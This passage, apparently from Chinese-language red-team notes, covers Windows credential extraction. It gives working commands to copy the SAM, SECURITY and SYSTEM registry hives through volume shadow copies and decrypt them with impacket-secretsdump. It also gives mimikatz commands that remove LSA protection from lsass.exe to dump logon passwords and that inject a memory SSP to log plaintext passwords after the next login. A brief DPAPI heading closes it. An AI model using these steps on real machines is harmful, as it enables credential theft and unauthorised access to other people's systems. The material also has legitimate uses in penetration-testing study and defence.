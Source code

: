 ![](../../../../assets/img/Security/RedTeam/OS安全/Windows安全/4.png)

**卷影复制**

```bash
wmic shadowcopy call create volume='c：\'       # 先创建 c 盘的 shadowscopy
# 或者
vssadmin create shadow /for=C:

vssadmin list shadows   # 查看
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\sam c:\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\security c:\security
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\system c:\system

# 用 impacket-secretsdump 来进行解密
impacket-secretsdump -sam sam -security security -system system LOCAL
```

![](../../../../assets/img/Security/RedTeam/OS安全/Windows安全/5.png)

---

### Bypass LSA Protection

1. 从磁盘上的 SAM 读取凭据
2. mimikatz 其中的 mimidrv.sys 驱动程序，可从 lsass.exe 进程中删除 LSA 保护，成功 pypass LSA Protection。
    ```
    privilege::debug
    !+
    !processprotect /process:lsass.exe /remove
    sekurlsa::logonpasswords
    ```

    ![](../../../../assets/img/Security/RedTeam/OS安全/Windows安全/6.png)

---

### Bypass Credential Guard

1. 从磁盘上的 SAM 读取凭据
2. SSP 是参与用户身份验证的 Microsoft 软件包，如在用户登录时被调用，并接收该用户的凭据。在系统启动时 SSP 会被加载到进程 lsass.exe 中。,Mimikatz 可通过内存安装自定义的 ssp，修改 lsass 进程的内存，实现从 lsass 进程中提取凭据，mimikatz 执行 misc::memssp 后，如果再输入了新的凭据 (如用户锁屏后重新登录)，将会在 c:\windows\system32 下生成文件 mimilsa.log，其中保存有用户明文密码。
    ```
    privilege::debug
    misc::memssp
    ```

---

### DPAPI

由于功能需求，Dpapi 采用的加密类型为对称加密，所以只要找到了密钥，就能解开物理存储的加密信息了。
